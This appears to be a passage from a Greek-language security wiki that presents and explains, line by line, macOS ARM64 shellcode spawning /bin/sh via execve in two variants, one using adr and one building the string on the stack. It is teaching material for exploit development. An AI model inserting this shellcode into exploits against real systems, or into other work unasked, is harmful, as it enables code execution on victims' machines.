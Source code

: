 #### Shell

Προέρχεται από [**εδώ**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s) και εξηγείται.

{% tabs %}
{% tab title="με adr" %}
```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
adr  x0, sh_path  ; This is the address of "/bin/sh".
mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.
mov  x16, #59     ; Move the execve syscall number (59) into x16.
svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

sh_path: .asciz "/bin/sh"
```
{% endtab %}

{% tab title="με στοίβα" %}
```armasm
.section __TEXT,__text ; This directive tells the assembler to place the following code in the __text section of the __TEXT segment.
.global _main         ; This makes the _main label globally visible, so that the linker can find it as the entry point of the program.
.align 2              ; This directive tells the assembler to align the start of the _main function to the next 4-byte boundary (2^2 = 4).

_main:
; We are going to build the string "/bin/sh" and place it on the stack.

mov  x1, #0x622F  ; Move the lower half of "/bi" into x1. 0x62 = 'b', 0x2F = '/'.
movk x1, #0x6E69, lsl #16 ; Move the next half of "/bin" into x1, shifted left by 16. 0x6E = 'n', 0x69 = 'i'.
movk x1, #0x732F, lsl #32 ; Move the first half of "/sh" into x1, shifted left by 32. 0x73 = 's', 0x2F = '/'.
movk x1, #0x68, lsl #48   ; Move the last part of "/sh" into x1, shifted left by 48. 0x68 = 'h'.

str  x1, [sp, #-8] ; Store the value of x1 (the "/bin/sh" string) at the location `sp - 8`.

; Prepare arguments for the execve syscall.

mov  x1, #8       ; Set x1 to 8.
sub  x0, sp, x1   ; Subtract x1 (8) from the stack pointer (sp) and store the result in x0. This is the address of "/bin/sh" string on the stack.
mov  x1, xzr      ; Clear x1, because we need to pass NULL as the second argument to execve.
mov  x2, xzr      ; Clear x2, because we need to pass NULL as the third argument to execve.

; Make the syscall.

mov  x16, #59     ; Move the execve syscall number (59) into x16.
svc  #0x1337      ; Make the syscall. The number 0x1337 doesn't actually matter, because the svc instruction always triggers a supervisor call, and the exact action is determined by the value in x16.

```
{% endtab %}
